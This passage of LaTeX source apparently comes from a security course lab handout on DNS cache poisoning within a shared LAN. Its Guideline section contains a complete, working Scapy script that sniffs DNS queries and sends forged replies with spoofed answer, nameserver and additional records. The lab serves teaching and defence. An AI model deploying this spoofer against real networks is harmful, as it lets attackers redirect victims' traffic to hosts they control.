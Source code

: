 In the DNS cache poisoning attack of this lab, 
we assume that the attacker and the DNS server are on
the same LAN, i.e., the attacker can observe the DNS query message.
When the attacker and the DNS server are not on the same LAN,
the cache poisoning attack becomes much more challenging. If you
are interested in taking on such a challenge, you can 
try our ``Remote DNS Attack Lab''.




\section{Guideline}
\label{sec:guideline}


You need to use Scapy for several tasks in this lab. The following sample code shows how to
sniff a DNS query and then spoof a DNS reply, which contains 
a record in the Answer section, two records in the Authority section and two
records in the Additional section.  


\begin{lstlisting}
#!/usr/bin/python
from scapy.all import *
 
def spoof_dns(pkt):
  if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):

    # Swap the source and destination IP address
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number 
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',               
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns1.example.net')
    NSsec2 = DNSRR(rrname='example.net', type='NS',
                   ttl=259200, rdata='ns2.example.net')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns1.example.net', type='A', 
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.example.net', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,     (*@\ding{192}@*)
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().                		
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
\end{lstlisting}
 

